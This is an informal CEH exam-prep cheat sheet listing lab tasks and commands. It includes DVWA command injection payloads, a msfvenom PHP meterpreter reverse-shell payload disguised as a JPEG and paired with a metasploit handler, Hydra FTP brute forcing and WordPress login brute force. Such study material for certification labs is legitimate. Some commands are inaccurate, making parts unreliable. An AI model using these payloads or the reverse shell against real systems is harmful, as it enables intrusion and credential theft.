 # CEH_CHEAT_SHEET

1.Sql injection using sqlmap: u need to perform sql injection attack using sqlmap and need to extract password of specific user.

2. You need to check which hosts have rdp enabled. For this u need to perform the port scan on 3389 and then os discovery on open port host and u need to get os of that rdp enabled host.

3. U need to check the mysql service running on which host. Same question 2 technique you need to perform.

3. U need to extract username and password of ftp ( hydra tool u need to use and need to use wordlist placed in desktop wordlist folder)

4. U need to get the password.txt file using veracrypt (disk encryption)

5. U need to get the username and password using wireshark.

6. U need to check bit 3 is true or not using wireshark

7. U need to check the traffic from which port to which port is moving using wireshark

8. U need to decrypt the 3des encryption using cryptool.

9. U need to extract the pin using openstego

10. U need to perform steganalysis on the txt file using snow tool

11. U need to perform brute force on the website using burpsuite ( using intruder)

12. U need to crack hash file using john ( the hash file is located in the responder tool logs file)

13.u need to find the flag file from the ftp. ( for this task bro please use the credentials u cracked in previous challenge)

14. Perform remote os command
 injection (dvwa web) and need to get the content from pin file

15. Perform file upload (dvwa web)

16. U need to compare the hashes using md5 and provide results which file is tampered.

17. Need to crack hash file ( john the ripper)

18. U need to find trojan and need to provide the port of the trojan
19. U need to perform the parameter tamperingo


For 8. The key value will be 11.

U need to perform the cryptanalysis and u have to use the cryptool. Open the cryptool on top, click on encryption / decryption and then click on asymmetric and select tripe des ecb and set 11 11 11 in all. But first please open that file in the tool they ask us to perform the decryption decryption

For this remote command injection attack u need to perform the things a

Snow.exe -C -p “given_password” file_name

| dir c:\ with this command u can see the pin.txt file. But to read the content from this try this command | dir c:\ "pin.txt" or this command ! Take pin.txt

## DVWA - You can change the severity from impossible to easy.

### WINDOWS - COMMAND INJECTION


Easy - Command Injection 

Execute 127.0.0.1 & & net user
Execute 127.0.0.1 & & net user & & ver command
Execute 127.0.0.1 & & net user & & getmac

Medium - Command Injection 

127.0.0.1&net user
127.0.0.1&net user&sc query&systeminfo
127.0.0.1&;&ipconfig

High - Command Injection

127.0.0.1|net user

### FILE UPLOAD - WINDOWS

msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.104 lport=3333 -f raw

type GIF98 before PHP code and save as shell.jpeg.

Copy the uploaded path 

Click on command injectio and type below command
|copy C:\xampp\htdocs\DVWA\hackable\uploads\shell.jpeg
 C:\xampp\htdocs\DVWA\hackable\uploads\aa.php

Msfconsole 
Use multi/handler
Set payload php/meterpreter/reverse_tcp
Set lhost
Set lport
Run



# My experience - 2022 March:

Above material was gathered for preparation, but most of the  content is just useless,So don’t take this seriously, rather you should make your own notes for ILABS videos on youtube. During the exam I have searched many things and even went through the commands manual for finding particular flags and tools to find the answer, so don’t worry if anything is missing in your custom cheatsheet as this is an open book exam. 

Tough questions I had in the exam.

An FTP site is hosted on a machine in a network. Obtain the file “flag.txt” by cracking the credentials of the FTP server and determine the content in this file.
Ftp server was bruteforce easily but the file would not be retrieved as error stated that “Access Denied”. 

An important file has been hidden in the Server 2019 machine in the directory mentioned below. You are an ethical hacker working with a company. You have been assigned the task to retrieve the file “SECRET.txt” using a backdoor that was installed in the server. Enter the secret number hidden in the file. Path: C:\Users\Administrator\Documents\Findme
No clue about this, like where to find the server in the network.

# Note: You can download and install tools If you'll does'nt find required tool on given machine, you can find tools from folder CEH-Tool on given windows machine as well.

## Tools I used .
```
Veracrypt 
Cryptool
Snow
Bctextencoder
Md5 & sha1 checksum utility
Wpscan
Nmap
Metasploit
Hydra
Wireshark
Winscp
OWASP ZAP
RDP
```

## Commands:
```
Net  user
Snow.exe -C -p “given_password” file_name
—---------------------

wpscan --url http://10.10.10.12:8080/CEG --enumerate u
msfconsole
use axiliary/scanner/http/wordpress_login_enum
PASS_FILE /root/Desktop/wordlists/Passwords.txt
set RHOSTs 10.10.10.12
set RPORT 8080
set TARGETURI http://10.10.10.12:8080/CEH/
set USERNAME admin
run

—------------------------
Nmap -Pn -p 21 target > ftp
grep -B 5 open ftp

—--------------------------
Nmap -Pn -p 3389 target > rdp
grep -B 5 open rdp
—-------------------------
Nmap -Pn -p 3306 target > mysql
grep -B 5 open mysql

Hydra -l james -P given_wordlist ftp://target
```

